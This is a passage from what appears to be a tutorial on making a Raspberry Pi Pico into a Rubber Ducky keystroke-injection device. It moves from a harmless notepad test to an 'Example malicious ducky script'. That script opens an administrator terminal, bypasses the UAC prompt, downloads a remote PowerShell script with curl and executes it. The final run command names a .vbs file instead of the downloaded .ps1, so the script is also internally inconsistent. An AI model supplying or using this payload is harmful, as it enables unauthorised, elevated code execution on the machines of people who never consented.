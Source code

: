 And save it as `payload.dd` in pico drive.

Now disconnect and reconnect the pico to test if it is working or not. If it is working it will open notepad and type `Hello World!` in it.

10\. Now you can write your own ducky script inside the `payload.dd` file and run it on any system.

**Note: -** After saving the ducky script in payload.dd it will execute it immediately on connected system. So keep that in mind before writing the ducky script.

`Hello World!` **Demo**:

[https://vimeo.com/870229586?share=copy](https://vimeo.com/870229586?share=copy)

**Example malicious ducky script:**

[https://vimeo.com/870230398?share=copy](https://vimeo.com/870230398?share=copy)

**Script:**

`REM TO CLOSE OPENED FILE EXPLORER WE USE ALT F4`

`ALT F4`

`DELAY 500`

`GUI r`

`DELAY 500`

`STRING wt`

`REM TO OPEN AS ADMINISTRATOR USING CONTROL SHIFT ENTER`

`CONTROL SHIFT ENTER`

`DELAY 1000`

`LEFT`

`DELAY 500`

`ENTER`

`DELAY 1000`

`STRING cd .\Downloads\`

`ENTER`

`DELAY 500`

`STRING curl URL/to/your/powershell/script -O script.ps1`

`ENTER`

`DELAY 500`

`STRING .\script.vbs`

`ENTER`

`DELAY 500`

`STRING exit`
